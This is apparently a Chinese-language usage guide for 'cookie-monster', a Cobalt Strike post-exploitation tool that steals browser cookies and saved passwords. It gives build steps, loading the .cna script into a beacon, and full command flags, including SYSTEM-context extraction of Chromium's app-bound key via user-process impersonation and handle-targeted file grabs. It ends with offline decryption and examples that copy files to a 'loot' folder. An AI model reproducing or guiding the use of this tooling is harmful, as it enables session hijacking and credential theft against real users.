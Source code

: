 清理：
```bash
make clean
```
注意：如清理目标文件名与生成产物不一致，可手动删除对应 `.o` 文件。

#### 2) 在 Cobalt Strike 中加载脚本
- 在 CS 中加载 `cookie-monster.cna`。
- Beacon 中执行命令：`cookie-monster [参数]`。

#### 3) 获取到数据库文件与密钥后进行离线解密
安装依赖：
```bash
pip3 install -r requirements.txt
```
查看帮助：
```bash
python3 decrypt.py -h
```

### Cobalt Strike 命令与参数
`cookie-monster` 的完整帮助已在 `cookie-monster.cna` 与 `README.md` 中定义，摘要如下：

基础模式：
- `--chrome`：自动枚举进程与句柄，如匹配 `chrome.exe`，复制 Cookies/Login Data 文件到 CWD。
- `--edge`：同上，匹配 `msedge.exe`。
- `--firefox`：解析 `profiles.ini`，定位 `logins.json` 与 `key4.db` 并下载。

系统级解密（无注入）：
- `--system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID>`
  - 在 SYSTEM 上下文提取 app bound key；
  - 需要提供 `Local State` 路径与某用户进程的 PID 用于模拟；
  - 适用于 Chromium v20+、Chrome 137+ 场景。

精确到特定 PID：
- `--chromeCookiePID <PID>` / `--chromeLoginDataPID <PID>`
- `--edgeCookiePID <PID>` / `--edgeLoginDataPID <PID>`
  - 已知哪个进程持有目标文件句柄时，直接复用加速获取。

选择性获取：
- `--key-only`：仅获取 app bound key（不下载 Cookie/Login Data）。
- `--cookie-only`：仅下载 Cookie 文件。
- `--login-data-only`：仅下载 Login Data 文件。

复制方式：
- `--copy-file "C:\Folder\Location\"`：不走 fileless，直接复制到该目录。

参数互斥/校验（在 `.cna` 内已实现）：
- `--key-only` 不能与 `--cookie-only` 或 `--login-data-only` 同用。
- `--key-only` 不能与 `--copy-file` 同用。
- `--login-data-only` 不能与 `--edgeCookiePID`/`--chromeCookiePID` 同用。
- `--cookie-only` 不能与 `--edgeLoginDataPID`/`--chromeLoginDataPID` 同用。
- PID 必须为数字且不等于 1。

示例：
```text
cookie-monster --chrome
cookie-monster --edge
cookie-monster --system "C:\Users\<USER>\AppData\Local\Chrome\User Data\Local State" 1234
cookie-monster --chromeCookiePID 4321
cookie-monster --edgeLoginDataPID 5678 --login-data-only
cookie-monster --edge --copy-file "C:\loot\browser\"
```
